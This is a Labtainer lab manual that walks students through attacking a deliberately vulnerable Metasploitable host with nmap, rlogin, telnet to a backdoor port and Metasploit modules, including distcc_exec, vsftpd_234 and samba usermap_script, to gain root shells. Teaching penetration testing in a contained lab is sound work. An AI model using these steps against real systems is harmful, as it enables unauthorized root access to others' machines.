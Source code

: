 ![](media/b80e0eacca6dad9d42b5dc3545946591.png)

Using Metasploit
=================================

Overview
========

This Labtainer exercise explores the use of the metasploit tool which is
installed on a Kali Linux system (attacker) and is meant to learn simple
penetration skills on a purposely vulnerable metasploitable host (victim).

Note: the attacker computer is configured to have IP address 192.168.1.3 while
the victim computer is 192.168.1.2

Lab Environment
===============

Once you have logged into your range account and accessed your Labtainer-VM,
open a terminal window.

Navigate to the “labtainer-student” directory and start the lab using the
command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$  labtainer metasploit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-   The resulting virtual terminal is connected to the attacker computer.
-   Links to this lab manual will be displayed if you wish to view the prompt
    from within your VM


Lab Tasks
=====

Verify connectivity between attacker and victim
=====

- A simple ping from the attacker system will be sufficient.

```
ping 192.168.1.2
```

Get a list of vulnerable services on the victim
=====

- An 'nmap' scan of the victim will be sufficient.

```
nmap -p0-65535 192.168.1.2
```

Walk-Thru for Vulnerably configured rlogin service (port 513)
=====

- Remote login to the victim (with root privilege)
```
rlogin -l root 192.168.1.2
```

- Display a 'root' file
```
cat /root/filetoview.txt
```

Walk-Thru for Vulnerable ingreslock service (port 1524)
=====

- Use telnet to access ingreslock service and obtain root privilege
```
telnet 192.168.1.2 1524
```

- Display root file as above

Walk-Thru for Vulnerable distccd service (port 3632)
=====

- Start Metasploit console
```
sudo msfconsole
```

Note you will see a warning about a missing database, you can ignore that.

- Search for distccd exploit:
```
search distccd
```

- Use the exploit:
```
use exploit/unix/misc/distcc_exec
```

- View options related to exploit:
```
options
```

- Set the 'RHOST' option:
```
set RHOST 192.168.1.2
```

- Run the exploit:
```
exploit
```

Note: when the exploit has succeeded, no prompt is shown but a shell is created.

- Display the root file as above.

Your Turn! Exploit the Vulnerable IRC daemon (port 6667)
=====

- Search for unreal_ircd exploit.

- Use the exploit.

- View and set options as necessary (RHOST option) run the exploit and display
root file.

Exploit the Vulnerable VSFtpd service (port 21)
=====

- Search for vsftpd_234.

- Use the exploit.

- View and set options as necessary (RHOST option), run the exploit and display
root file.

Exploit the Vulnerable Samba service (port 139)
=====

- Search for samba usermap_script.

- Use the exploit.

- View and set options as necessary (RHOST option), run the exploit and display
root file.

Exploit the Vulnerable HTTP (php) service (port 80)
=====

- Search for php_cgi.

- Use the exploit.

- View and set options as necessary (RHOST option) run the exploit.

Note: when the exploit is succeeded a 'meterpreter' prompt is shown.

- From meterpreter prompt, drop to a shell:

```
shell
```

- Display the root file.


Expolit the Vulnerable Postgres service (port 5432)
=====

- Search for postgres_payload.

- Use the exploit.

- View and set options as necessary (RHOST option).

- run the exploit.

Note: when the exploit is succeeded a 'meterpreter' prompt is shown.


- From meterpreter prompt, drop to a shell.

- Display root file.

Stop the Labtainer (Bonus lab)
=====

When the lab is completed, or you'd like to stop working for a while, run

```
$ stoplab
```

You can always restart the Labtainer to continue your work. 

